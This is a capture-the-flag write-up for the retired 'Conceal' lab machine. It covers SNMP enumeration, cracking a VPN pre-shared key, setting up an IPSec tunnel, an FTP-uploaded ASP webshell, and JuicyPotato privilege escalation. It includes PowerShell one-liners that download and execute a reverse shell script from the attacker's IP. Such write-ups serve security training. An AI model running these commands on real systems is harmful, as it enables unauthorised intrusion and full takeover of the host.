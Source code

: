 # Conceal

This is the write-up for the box Conceal that got retired at the 18th May 2019.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.116    coneal.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/conceal.nmap 10.10.10.116
```

```markdown
Nmap scan report for 10.10.10.116
Host is up (0.048s latency).
All 1000 scanned ports on 10.10.10.116 are filtered
```

There is no port open so we need to do different scans to get any information. 

Full TCP port scan for all 65535 ports:
```markdown
nmap -p- -o nmap/conceal-alltcp.nmap 10.10.10.116
```

UDP scan:
```markdown
nmap -sU -o nmap/conceal-1000udp.nmap 10.10.10.116
```

```markdown
Not shown: 999 open|filtered ports
PORT    STATE SERVICE
500/udp open  isakmp
```

### Checking SNMP

Before we get into the results of the scans we can check for SNMP strings manually. We can use **snmpwalk** or a more verbose tool called **snmp-check**:
```markdown
snmp-check 10.10.10.116
```

We get a lot of interesting results that I put in a file in this folder called **conceal-snmp_check.txt** but here is the interesting stuff:
- IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
- Windows Version 6.3 (Build 15063)
- User: Destitute
- Network Interfaces with IKEv2, PPTP, L2TP
- Listening TCP ports: 
  - 21 - FTP 
  - 80 - HTTP 
  - 135 - Microsoft RPC
  - 139 - NetBIOS
  - 445 - SMB
- Listening UDP ports: 
  - 123 - NTP
  - 161 - SNMP
  - 500 - IPSec / IKE
  - 4500 - IPSec NAT Traversal
  - 5050 - Unknown
  - 5353 - Multicast DNS
  - 5355 - LLMNR
  - 137 - NetBIOS Name Service
  - 138 - NetBIOS Datagram Service
  - 1900 - Microsoft SSDP (UPnP)
  - 53226 - Unknown
  - 53227 - Unknown


## Checking IPSec

The fact that the UDP port 500 is open and we get this IKE VPN password PSK means we need to look further into **IPSec VPN**.
First we try to crack the password manually or search for it on hashes.org and it says:
> Dudecake1!

We can test if we get a response back from the IKE service:
```markdown
ike-scan -M 10.10.10.116
```

```markdown
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=befc472fa43aa6a0)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
```

We need to focus on the **SA (Security Association)** that is:
- Encrypted in 3DES
- Hashed in SHA1
- Authentication with a PSK that we have
- Life Duration of it is 0x00007080 = 28800 seconds = 8 hours

Now that we have all the important information we need a IPSec Tunneling program called **strongswan**.

### Configuring strongswan

In the `manpage` for `ipsec.secrets` we find an example how to configure an IPSec tunnel:
```markdown
# /etc/ipsec.secrets - strongSwan IPsec secrets file
192.168.0.1 %any : PSK "v+NkxY9LLZvwj4qCC2o/gGrWDF2d21jL"
```

So we add this line to the **/etc/ipsec.secrets** file:
```markdown
10.10.10.116 %any : PSK "Dudecake1!"
```

Whenever we make an IPSec connection through stongswan to the box it uses this PSK.

Next we need to configure **/etc/ipsec.conf** and the help for that can be found in `man ipsec.conf`.
Everything we configure here is with information we already have:
```markdown
conn Conceal
        type=transport
        keyexchange=ikev1
        left=10.10.14.10
        leftprotoport=tcp
        right=10.10.10.116
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        ike=3des-sha1-modp1024
        ikelifetime=8h
        fragmentation=yes
        auto=start
```

Starting the IPSec VPN connection:
```markdown
ipsec start --nofork
```

We are now connected and can verify that by doing a port scan on port 445 from which we know that it should be open:
```markdown
nmap -sT -p 445 -Pn 10.10.10.116
```

```markdown
PORT    STATE SERVICE
445/tcp open  microsoft-ds
```

Now this port says open and we can enumerate the running services we know from the SNMP scan.

## Checking FTP and HTTP (Port 21 and 80)

Anonymous login on FTP works with no files in there but we can upload files to it.

If we browse to the web page we see the IIS default page and after some enumerating paths we find **/uploads** where it shows the files we uploaded to FTP.
As **ASPX** does not work but **ASP** does we can upload an .asp file to get a webshell and have command execution.

We want to execute a reverse shell. I will take _Invoke-PowerShellTcp.ps1 from Nishang_ that I just call _revshell.ps1_ and it will listen on my IP and port 9001:
```markdown
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/revshell.ps1')"
```

We now started a reverse shell session with the user _Destitute_ and can read the first flag.

## Privilege Escalation

If we look at the privileges of the user _Destitute_ with `whoami /all` we can see the following:
```markdown
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The **SeImpersonatePrivilege** privilege is enabled and this is what we want to abuse with the local privilege escalation tool **JuicyPotato**.

When uploading the JuicyPotato.exe file over FTP we need to set the FTP mode to `binary` and then `put JuicyPotato.exe`.
We create a .bat file with the same command as we invoked into the webshell to spawn a new reverse shell with higher privileges:
```bat
REM This is rootshell.bat

powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/rootshell.ps1')"
```

After uploading the file we can execute JuicyPotato.exe:
```markdown
.\JuicyPotato.exe -t * -p C:\Users\destitute\Documents\revshell.bat -l 9002 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

Normally it tries the CLSID of BITS but that won't escalate our privileges so we take the **CLSID of wuauserv** which is _{e60687f7-01a1-40aa-86ac-db1cbf673334}_.
We can a list of CLSID here: [JuicyPotato CLSID list](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

When the program successfully runs, our second reverse shell spawns a shell with the user _NT Authority\SYSTEM_ and we rooted the box!
